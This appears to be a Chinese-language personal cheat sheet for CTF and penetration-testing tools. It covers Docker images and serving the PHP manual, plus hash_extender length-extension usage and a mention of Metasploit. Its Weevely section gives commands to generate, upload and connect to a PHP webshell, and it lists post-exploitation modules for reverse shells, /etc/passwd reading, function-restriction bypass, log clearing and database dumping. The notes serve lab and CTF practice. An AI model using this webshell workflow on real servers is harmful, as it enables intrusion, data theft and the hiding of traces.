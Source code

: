 # 镜像
[ctfwiki/ctf-wiki - Docker Image | Docker Hub](https://hub.docker.com/r/ctfwiki/ctf-wiki)
[wcjiang/linux-command - Docker Image | Docker Hub](https://hub.docker.com/r/wcjiang/linux-command)
[mpepping/cyberchef - Docker Image | Docker Hub](https://hub.docker.com/r/mpepping/cyberchef)
[remnux/ciphey - Docker Image | Docker Hub](https://hub.docker.com/r/remnux/ciphey)
[sonarqube - Official Image | Docker Hub](https://hub.docker.com/_/sonarqube)
##### PHP manual
[PHP: Download documentation](https://www.php.net/download-docs.php)
```dockerfile
FROM nginx
COPY ./php-chunked-xhtml /usr/share/nginx/html
```

```sh
docker build . -t php8-manual
docker run --rm --name php8-manual -dp 3001:80 php8-manual
```

# Weevely
kali自带的webshell管理工具
1. 生成木马文件，在weebely3文件夹中会生成一个连接密码为123的shell.php
```sh
./weevely.py generate <password> shell.php
```
2. 上传shell文件到目标服务器
3. 连接木马
```sh
./weevely.py http://192.168.139.129:81/shell.php <password>
```
4. 连上之后可以执行指令了
5. 利用自带模块收集信息

```sh
:system_info -info uname
# 直接输入help可以查看其他可用模块
```

```sh
:shell_su                     # 通过更变使用者来执行shell命令，可以获得root权限来执行命令.
:shell_sh                     # 执行 shell 命令.
:shell_php                    # 执行 PHP 命令.
:system_extensions            # 收集PHP和webserver扩展列表
:system_info                  # 收集系统信息
:system_procs                 # 列出正在运行的进程
:audit_disablefunctionbypass  # 使用mod_cgi和.htaccess绕过系统禁用函数的限制。它会上传.htaccess和CGI脚本，并在远程服务器上运行伪系统shell
:audit_etcpasswd              # 查看/etc/passwd文件
:audit_suidsgid               # 查找带有SUID或SGID标志的文件。
:audit_phpconf                # 查看php配置信息
:audit_filesystem             # 审核文件系统的弱权限。枚举各种系统目录并寻找可读写执行的目录，模块仅默认搜索部分linux下的常见目录，logs、root、home等
:backdoor_reversetcp          # 执行反向TCP shell. 需要nc -lvp <port>监听
:backdoor_tcp                 # 在TCP端口上生成shell
:net_scan                     # TCP端口扫描.
:net_mail                     # 发送邮件.
:net_ifconfig                 # 获取网络接口地址.
:net_curl                     # 执行类似curl的HTTP请求.
:net_proxy                    # 运行本地代理以通过目标转移HTTP / HTTPS浏览
:net_phpproxy                 # 在目标上安装PHP代理.
:bruteforce_sql               # 可用来猜解数据库密码.
:file_find                    # 查找具有给定名称和属性的文件.
:file_download                # 从远程文件系统下载文件.
:file_check                   # 获取文件的属性和权限.
:file_touch                   # 更改文件时间戳.
:file_cd                      # 更改当前工作目录.
:file_grep                    # 打印与多个文件中的模式匹配的行.
:file_gzip                    # 压缩或解压gzip文件.
:file_tar                     # 压缩或解压tar文件.
:file_enum                    # 检查路径列表的存在和权限
:file_bzip2                   # 压缩或解压bzip2文件.
:file_mount                   # 使用HTTPfs挂载远程文件系统.
:file_clearlog                # 从文件中删除字符串.
:file_zip                     # 压缩或解压zip文件.
:file_cp                      # 复制单个文件.
:file_upload2web              # 自动将文件上传到Web文件夹并获取相应的URL.
:file_edit                    # 在本地编辑器上编辑远程文件.
:file_read                    # 从远程文件系统中读取远程文件.
:file_webdownload             # 指定URL下载文件.
:file_upload                  # 文件上载到远程文件系统.
:file_ls                      # 列出目录内容.
:file_rm                      # 删除远程文件.
:sql_dump                     # Multi dbms mysqldump replacement.
:sql_console                  # 执行SQL查询或运行sql控制台.
```


# Hash_extender
[iagox86/hash_extender (github.com)](https://github.com/iagox86/hash_extender)
哈希扩展攻击的实现

```sh
# clone后将makefile中改为-Wno-deprecated-declarations再进行make
- CFLAGS		:= -std=c89 -g -oS -Wall -Werror -Wno-deprecated
+ CFLAGS		:= -std=c89 -g -oS -Wall -Werror -Wno-deprecated-declarations


# 使用方式
hash_extender --data data --secret 6 --append append --signature 6036708eba0d11f6ef52ad44e8b74d5b --format md5

# H(secret + data)
# 使得自行拼凑的 H(secret + data + append)有效
# secret其实可以随便填，反正随便猜个长度
```



# Metasploit
`msfconsole`启动
常用的渗透测试工具，包含了常见的漏洞利用模块和生成各种木马。



